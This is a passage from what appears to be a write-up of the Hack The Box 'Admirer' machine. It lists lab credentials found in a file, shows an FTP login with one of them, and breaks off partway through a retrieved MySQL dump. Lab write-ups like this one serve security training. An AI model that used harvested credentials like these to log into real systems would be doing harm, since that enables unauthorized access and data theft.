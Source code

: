 We discovered the credentials `w.cooper@admirer.htb:fgJr6q#S\W:$P`, `ftpuser:%n?4Wz}R$tTF7` and `admin:w0rdpr3ss01!`.


### Port 21 enumeration
As we can see, the file `credentials.txt` provided us some credentials. As the page does not have `/wp-admin` available nor access to the internal mail account, we can try to login to the FTP server with `ftpuser:%n?4Wz}R$tTF7`:
```shell
❯ ftp 10.10.10.187 21
Connected to 10.10.10.187.
220 (vsFTPd 3.0.3)
Name (10.10.10.187:r3van): ftpuser
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0            3405 Dec 02  2019 dump.sql
-rw-r--r--    1 0        0         5270987 Dec 03  2019 html.tar.gz
226 Directory send OK.
```
If we download the files using `get` command, we can notice:
- `Results/dump.sql`:
```sql
-- MySQL dump 10.16  Distrib 10.1.41-MariaDB, for debian-linux-gnu (x86_64)
--
-- Host: localhost    Database: admirerdb
-- ------------------------------------------------------
-- Server version	10.1.41-MariaDB-0+deb9u1

/*!40101 SET @OLD_CHARACTER_SET_CLIENT=@@CHARACTER_SET_CLIENT */;
/*!40101 SET @OLD_CHARACTER_SET_RESULTS=@@CHARACTER_SET_RESULTS */;
/*!40101 SET @OLD_COLLATION_CONNECTION=@@COLLATION_CONNECTION */;
/*!40101 SET NAMES utf8mb4 */;
/*!40103 SET @OLD_TIME_ZONE=@@TIME_ZONE */;
/*!40103 SET TIME_ZONE='+00:00' */;
/*!40014 SET @OLD_UNIQUE_CHECKS=@@UNIQUE_CHECKS, UNIQUE_CHECKS=0 */;
/*!40014 SET @OLD_FOREIGN_KEY_CHECKS=@@FOREIGN_KEY_CHECKS, FOREIGN_KEY_CHECKS=0 */;
/*!40101 SET @OLD_SQL_MODE=@@SQL_MODE, SQL_MODE='NO_AUTO_VALUE_ON_ZERO' */;
/*!40111 SET @OLD_SQL_NOTES=@@SQL_NOTES, SQL_NOTES=0 */;

--
-- Table structure for table `items`
--

DROP TABLE IF EXISTS `items`;
/*!40101 SET @saved_cs_client     = @@character_set_client */;
/*!40101 SET character_set_client = utf8 */;
CREATE TABLE `items` (
  `id` int(11) NOT NULL AUTO_INCREMENT,
  `thumb_path` text NOT NULL,
  `image_path` text NOT NULL,
  `title` text NOT NULL,
  `text` text,
  PRIMARY KEY (`id`)
) ENGINE=InnoDB AUTO_INCREMENT=13 DEFAULT CHARSET=utf8mb4;
/*!40101 SET character_set_client = @saved_cs_client */;

--
-- Dumping data for table `items`
```